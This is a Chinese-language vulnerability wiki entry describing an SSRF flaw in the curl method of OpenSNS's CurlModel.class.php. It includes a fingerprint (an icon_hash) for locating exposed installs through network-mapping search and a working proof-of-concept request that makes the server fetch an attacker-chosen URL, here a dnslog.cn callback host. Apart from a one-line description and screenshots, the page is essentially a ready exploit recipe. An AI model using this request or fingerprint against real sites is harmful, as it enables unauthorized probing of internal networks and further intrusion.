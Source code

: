 # OpenSNS CurlModel.class.php SSRF漏洞

## 漏洞描述

OpenSNS CurlModel.class.php文件中curl方法存在SSRF漏洞，通过漏洞攻击者可以探测内网信息

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](/assets/PeiQi-Wiki/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235733223.png)

存在漏洞的文件为 `Application/Admin/Model/CurlModel.class.php`

![img](/assets/PeiQi-Wiki/img/1634372194099-77c5fe31-6860-4f22-b7d8-4c7d7c5e1ecb.png)

构造POC

```php
/?s=weibo/share/shareBox&query=app=Admin%26model=Curl%26method=curl%26id=http://92aq2z.dnslog.cn
```

![img](/assets/PeiQi-Wiki/img/1634372283531-85b34ccd-7259-4164-bb67-1806e32fa6ec.png)